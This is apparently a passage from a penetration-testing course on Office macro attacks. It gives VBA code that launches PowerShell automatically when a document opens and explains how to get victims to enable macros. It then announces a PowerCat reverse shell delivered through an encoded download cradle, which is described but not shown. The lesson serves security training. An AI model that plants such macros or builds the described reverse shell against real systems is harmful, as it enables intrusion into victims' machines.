 Our updated VBA code is shown below:
```vb
Sub AutoOpen()

  MyMacro
  
End Sub

Sub Document_Open()

  MyMacro
  
End Sub

Sub MyMacro()

  CreateObject("Wscript.Shell").Run "powershell"
  
End Sub
```
Next, we'll click on the Save icon in the Microsoft Visual Basic for Applications window and close the document. After we re-open it, we are presented with a security warning indicating that macros have been disabled. To run our macro, we'll click on Enable Content.
![MS3.png](mc5.png)
![MS3.png](mc6.png)
In a real-world assessment, our victim must click on Enable Content to run our macros, otherwise our attack will fail. In enterprise environments, we can also face a situation where macros are disabled for Office documents in general. Fortunately for us, macros are commonly used (and allowed) in most enterprises.

Let's wrap this section up by extending the code execution of our current macro to a reverse shell with the help of PowerCat.12 We'll use a base64-encoded PowerShell download cradle13 to download PowerCat and start the reverse shell. The encoded PowerShell command will be declared as a String in VBA.
